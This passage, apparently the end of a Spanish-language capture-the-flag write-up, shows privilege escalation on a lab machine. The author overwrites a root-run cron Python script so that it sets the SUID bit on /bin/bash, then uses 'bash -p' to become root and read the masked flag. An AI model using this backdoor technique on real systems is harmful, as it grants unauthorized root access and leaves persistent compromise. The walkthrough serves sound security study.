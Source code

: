 ```bash
bash-4.3$ ls -lah
total 16K
drwxrwxr--  2 scriptmanager scriptmanager 4.0K Aug 17 07:48 .
drwxr-xr-x 23 root          root          4.0K Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Aug 17 07:48 test.py
-rw-r--r--  1 root          root            12 Aug 17 07:49 test.txt
```

Viendo esto, supongo que root tiene una tarea cron que ejecuta el script `test.py` a intervalos de tiempo,ya que el archivo que se generó a través del script es propiedad de root.

Al tener permisos de escritura en el script de python, ya la escalada de privilegios está asegurada.

Podriamos editar `test.py` con lo siguiente:

```python
import os

os.system("chmod u+s /bin/bash")
```
una vez hecho esto esperamos hasta que la tarea cron se ejecute, y ya podremos hacer un `bash -p` y convertirnos en root

```bash
bash-4.3$ bash -p
bash-4.3# whoami
root
```

Ya en este punto podremos ver la flag de root en /root/root.txt

```bash
bash-4.3# cat /root/root.txt 
cc4XXXXXXXXXXXXXXXXXXXXXXXXXXe2
```

# Resumen

En esta máquina hacemos uso de una utilidad que emulaba una shell en el servidor web para acceder al sistema, nos convertimos en el usuario `scriptmanager` con un permiso
de sudoers que nos permitía ejecutar cualquier comando como el usuario `scriptmanger`. Por último, nos convertimos en usuario root aprovechando una tarea cron que ejecutaba un
script en python que nosotros podíamos manipular.

